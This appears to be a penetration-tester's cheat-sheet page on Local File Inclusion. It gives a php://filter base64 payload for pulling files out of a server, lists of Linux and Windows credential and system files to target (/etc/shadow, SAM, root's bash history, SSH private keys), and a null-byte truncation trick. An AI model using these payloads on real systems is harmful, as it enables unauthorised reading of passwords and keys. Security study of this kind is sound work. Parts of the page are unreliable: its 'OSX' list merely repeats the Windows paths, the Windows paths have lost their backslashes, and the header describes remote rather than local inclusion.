```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the target machine even if it's not available locally.
---
```


# Local File Inclusion (LFI)

### Example

If we want to get a file then it is best to base64 encode it. This will ensure that we can exfiltrate files rather than have Apache read the file. This can be accomplished with the following command:

`php://filter/convert.base64-encode/resource=[FILE]`

The sections following lists common but interesting files to look at when testing for Local File Inclusion:

### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server appends something like ‘.php’ or '.config' to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like _?page_ and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page. Additionally, this can be observed if you're host a SimpleHTTPServer with Python.
* If you have LFI on a Linux host, you may be able to access the `.ssh/id_rsa` file of any identified users.

### References

* [File Inclusion Vulnerabilities - Offensive Security](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)
